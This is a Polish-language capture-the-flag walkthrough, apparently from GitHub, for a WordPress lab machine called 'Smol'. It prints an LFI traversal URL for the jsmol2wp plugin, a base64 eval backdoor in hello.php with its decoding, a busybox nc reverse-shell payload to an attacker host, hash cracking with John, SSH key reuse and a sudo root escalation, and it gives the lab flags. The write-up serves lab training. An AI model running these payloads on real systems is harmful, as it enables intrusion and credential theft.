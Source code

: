# Smol
## Zadanie

At the heart of Smol is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the AttackBox, John The Ripper is faster than Hashcat?

Note: Please allow 4 minutes for the VM to fully boot up.

## Kroki

Zacznijmy od wejścia na stronę, na początku nie odpowiada ale gdy dodamy sobie ją komendą `echo "10.10.62.197 www.smol.thm" >> /etc/hosts`, poprawnie nas przenosi,

Wygląda na standardową stronę na WordPress, użyjmy nmap i ffuf w celu wstępnego rekonesansu.

Wyniki nmap - SSH i HTTP standardowo otwarte:

![alt text](image.png)

FFUF zwróciło standardowe WordPressowe podstrony. Jak wiemy z polecenia musimy znaleźć podatny plugin, można to łatwo zrobić używając gobustera i wordlisty z nazwami pluginów. Przeszukujemy wtedy lokalizację `/wp-content/plugins`

![alt text](image-1.png)

Znaleźliśmy 2 pluginy *jsmol2wp* i *akismet*

Dla jsmol2wp istnieje podatność LFI Path Traversal (CVE-2018-20463).

Bazując na PoC z exploit-db, otwieramy plik `wp-config.php`.
https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt

![alt text](image-2.png)

Bingo! Znaleźliśmy hasło! Zalogujmy się nim teraz przez `/wp-admin.php`.

Przeglądając zakładkę Pages znalazłem tam ciekawą listę *Webmaster tasks*, która była prywatna, po jej przejrzeniu okazało się że odnosi się ona do sprawdzenia kodu pluginu "Hello Dolly", więc akismet okazał się być FP.

![alt text](image-3.png)

Musimy teraz znów wykorzystać podatność LFI aby dostać się do kodu hello dolly, w tym celu otwieramy poniższy URL:
`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php`

![alt text](image-4.png)

widzimy ciekawą linijkę kodu:
`eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));`

Po zdekodowaniu to będzie:
`eval("if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }")`

Gdy przetłumaczymy hexy otrzymamy:
`eval("if (isset($_GET["cmd"])) { system($_GET["cmd"]); }")`

Czyli mamy podatność RCE w parametrze CMD, plugin działa pod index.php więc naszym PoC jest:
`http://www.smol.thm/wp-admin/index.php?cmd=ls`

![alt text](image-5.png)

Od razu próbujemy Rev Shella, po kilku testach zadziałał BusyBox nc payload:
`busybox nc <IP> <PORT> -e sh`

Ulepszamy shella komendą `python3 -c 'import pty; pty.spawn("/bin/bash")'`

![alt text](image-6.png)

Następnie łączymy się z bazą danych credentialami z wp-config.php.
Potem wyciągamy sobie rekordy z bazy wp_users
`SELECT * FROM wp_users;`

Otrzymujemy tym samy hash'e haseł które scrackujemy sobie używając JTR zgodnie ze wskazówką
![alt text](image-7.png)

Wrzucamy je do pliku hash.txt i odpalamy poniższą komendę:
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Po chwii uzyskujemy hasło dla użytkownika diego. Logujemy się do niego za pomocą `su diego` i pierwsza flaga jest nasza!

![alt text](image-8.png)

Następnie po wylistowaniu plików rekurencyjnie z folderu /home widzimy zapisany klucz prywatny SSH dla użytkownika think, kopiujemy jego zawartość i wklejamy w plik tekstowy na naszej maszynie, następnie ustawiamy jego uprawnienia na 600 i łączymy się jako użytkownik think.

W tym celu używamy komendy: `ssh -i <PATH_TO_KEY> think@<TARGET_IP>`

![alt text](image-9.png)

Przejęliśmy kolejne konto!

Po wypisaniu `cat su` możemy zauważyć że przełączenie się na użytkownika gege nie wymaga od nas hasła, gdy to zrobimy uzyskujemy dostęp do jego plików, w tym do wordpress.old.zip, jest to archiwum zawierające backup starej strony.
Niestety archiwum jest zaszyfrowane, spróbujmy je odszyfrować, w tym celu na targecie odpalamy serwer http:
`python3 -m http.server`, pobieramy wget'em plik na swoją maszynę, następnie używamy Johna do złamania hasła:
`zip2john wordpress.old.zip > hash` i `john hash --wordlist=/usr/share/wordlists/rockyou.txt`.

![alt text](image-10.png)



Szybko łamiemy hasło i dostajemy się do zawartości, otwieramy plik wp-config.php i tam znajdziemy hasło usera xavi.

![alt text](image-12.png)

![alt text](image-11.png)

Tym hasłem przełączamy się na konto xavi i sprawdzamy `sudo -l` okazuje się że mamy pełną dowolność więc używamy sudo su i przełączamy się na roota.

![alt text](image-13.png)

![alt text](image-14.png)

Teraz tylko formalność `cat /root/root.txt` i ostatnia flaga jest nasza!

![alt text](image-15.png)

## Flaga

Flaga: **45edaec653ff9ee06236b7ce72b86963**
Flaga: **bf89ea3ea01992353aef1f576214d4e4**